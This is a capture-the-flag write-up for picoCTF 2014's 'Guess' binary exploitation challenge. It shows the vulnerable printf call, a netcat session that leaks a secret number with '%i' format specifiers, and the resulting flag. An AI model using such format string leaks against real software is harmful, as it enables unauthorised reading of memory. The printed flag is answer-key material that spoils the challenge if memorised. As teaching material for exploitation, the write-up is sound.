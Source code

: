 ## Guess - 75 (Binary Exploitation) ##
#### Writeup by Oksisane

### Problem ###

This program requires you to guess a random 32-bit number! Sounds difficult, right? There is a server running at vuln2014.picoctf.com:4546, and the source can be found [here](https://picoctf.com/problem-static/binary/Guess/guess.c).
### Hint ###

The only way to combat secure randomness is to leak the secret.

## Answer ##

### Overview ###

Exploit a basic format string vulnurability.

### Details ###

Looking at the source code, these lines immediately stand out:

```c
printf("Hello! What is your name?\n");

fgets(name, sizeof(name), stdin);

printf("Welcome to the guessing game, ");
printf(name);
```
Here we can see that the program reads in your name, then prints it using `printf`. `printf`, when called on user input, has a set of very serious vulnurabilities that let us read and write to the stack (see the writeup on Format for more detail). This means we can print out the next integer on the stack by setting our name as `%i`, the next two by setting our name as `%i %i`, repeated as many times as we need to print out the randomly generated number. As it turns out, the integer we want is in the 4th position, so we enter our name as `%i %i %i %i` and then enter the number to pass the check!
```sh
$ nc vuln2014.picoctf.com 4546
Hello! What is your name?
%i %i %i %i
Welcome to the guessing game, 32 -143569888 160419848 765327463

I generated a random 32-bit number.
You have a 1 in 2^32 chance of guessing it. Good luck.
What is your guess?
765327463
Wow! You guessed it!
Your flag is: leak_the_seakret
```
### Flag ###

    leak_the_seakret
